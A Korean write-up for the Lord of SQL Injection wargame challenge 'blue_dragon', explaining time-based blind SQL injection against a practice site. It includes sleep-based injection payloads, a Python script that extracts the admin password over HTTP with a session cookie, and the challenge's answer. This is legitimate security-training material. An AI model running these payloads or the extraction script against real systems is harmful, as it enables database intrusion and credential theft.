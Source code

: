 ```yaml
---
title: LOS - 27번 blue_dragon
category: Lord of SQL Injection
---
```


# [27] blue_dragon

## 문제

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FKFIKw%2FbtroCv4EK0q%2F34qar1nyDQNZRXZPTiBYE0%2Fimg.png">

## 풀이

1. 싱글쿼터와 역슬래시를 필터링하고 있다.

2. pw를 알아내야하는 Blind SQLi 문제이다.

<br>

이전 문제들과 뭔가 다른 점은 다음 부분이다.

```php
$result = @mysqli_fetch_array(mysqli_query($db,$query));
if(preg_match('/\'|\\\/i', $_GET[id])) exit("No Hack ~_~");
if(preg_match('/\'|\\\/i', $_GET[pw])) exit("No Hack ~_~");
```
 
쿼리를 먼저 실행한 이후에 싱글쿼터와 역슬래시를 필터링하고 있다.

싱글쿼터나 역슬래시가 포함된 문자열을 페이로드로 전달하더라도 쿼리는 실행될 것임을 추측할 수 있다.

다만, 필터에 걸릴 시 No Hack으로 exit해주고 있기 때문에 육안으로는 쿼리의 참/거짓 결과를 알 수가 없다.

따라서 이번 문제에서는 처음으로 Time Based SQLi를 사용해보았다!

<br>

[1] pw 길이 찾기

```
?id=' || id='admin' and if(length(pw)=[숫자], sleep(3), 0) %23
```

- 뒷부분은 전부 주석으로 날려주었기 때문에 pw 페이로드는 전달할 필요가 없다.

<br> 

[2] 완전한 pw 찾기

```
?id=' || id='admin' and if(ascii(substr(pw,[인덱스],1))=[아스키], sleep(3), 0) %23
```

- 역시 pw 페이로드는 전달할 필요가 없다.

<br>

[3] 참/거짓 판별

- Request를 보낸 이후 Response가 도착하기까지 걸린 시간을 측정하여 3초가 넘으면 참으로 본다.

<br>


**LoS 27번 Python 자동화 코드**이다.
```python
import requests
import time

url = "https://los.rubiya.kr/chall/blue_dragon_23f2e3c81dca66e496c7de2d63b82984.php"
cookie = {"PHPSESSID":"leco90m74ui20oikeo0n338f6b"}

print("🖤 Start SQLi...")

for i in range(1,100):
    payload = f"?id=' || id='admin' and if(length(pw)={i},sleep(3),0) %23"
    pre = time.time()
    requests.get(url+payload, cookies=cookie)
    post = time.time()
    if(post-pre>3):
        length = i
        print(f">> length : {length}")
        break

ans=""

for letter in range(1,length+1):
    print(f"🖤 Checking letter {letter}...")
    start = 32
    end = 127
    while True:
        middle = round((start+end)/2)
        payload = f"?id=' || id='admin' and if(ascii(substr(pw,{letter},1))>={middle},sleep(3),0) %23"
        pre = time.time()
        requests.get(url+payload, cookies=cookie)
        post = time.time()
        if(post-pre>3):
            payload = f"?id=' || id='admin' and if(ascii(substr(pw,{letter},1))={middle},sleep(3),0) %23"
            pre = time.time()
            requests.get(url+payload, cookies=cookie)
            post = time.time()
            if(post-pre>3):
                print(f">> letter {letter} → {chr(middle)}")
                ans+=chr(middle)
                break
            else:
                start = middle
        else:
            end = middle
            continue

print(f"🖤 Answer : {ans}")
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FeBeESw%2FbtroDPaeKTt%2FzQ2nB2e2UXsR6W4i8TLEzk%2Fimg.png">

답은 `d948b8a0` 이다.

## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2F5Wdoj%2FbtroCwvIybX%2FnimHxDRsIC3HlDBClY1PN1%2Fimg.png">